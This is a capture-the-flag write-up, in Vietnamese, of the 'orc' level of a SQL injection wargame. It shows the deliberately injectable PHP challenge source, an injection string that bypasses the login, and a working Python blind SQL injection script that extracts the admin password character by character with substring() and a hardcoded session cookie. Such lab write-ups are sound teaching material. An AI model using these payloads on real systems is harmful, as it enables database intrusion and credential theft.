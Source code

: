 orc
===
### Desscription
- Source
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

### Solution
- Phân tích code: Chúng ta có tham số truyền vào là `pw` được filter như những bài trước để chống attack vào các table khác của database. Để in ra được `Hello admin` thì ta có truyền vào `?pw=' or 1=1-- -`.
- Để có thể giải quyết bài này thì `pw` của mình truyền vào phải bằng với `pw` trả về trong database. 
- Kiểm tra `pw` trong database có độ dài là bao nhiêu thì ta có thể brute bằng burp ở phần intruder `?pw='or 1=1 and length(pw)=$$`

#### Payload
```
import requests
import string

url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
header = {'Cookie':'PHPSESSID=nmorf4kptpi5u8rsn3skhts4j0'}
flag = ''


for i in range(1,256):
	for j in string.printable:
		temp = flag+j
		param = "pw=' or 1=1 and substring(pw,1,{})='{}'-- -".format(i,temp)
		print(param)
		r = requests.get(url=url,params=param,headers=header)
		if "Hello admin" in r.text:
			flag += j
			print(flag)
			break
	if len(flag)==8:
		exit(0)
```
- Lưu ý thay Cookie ở phiên đăng nhập của bạn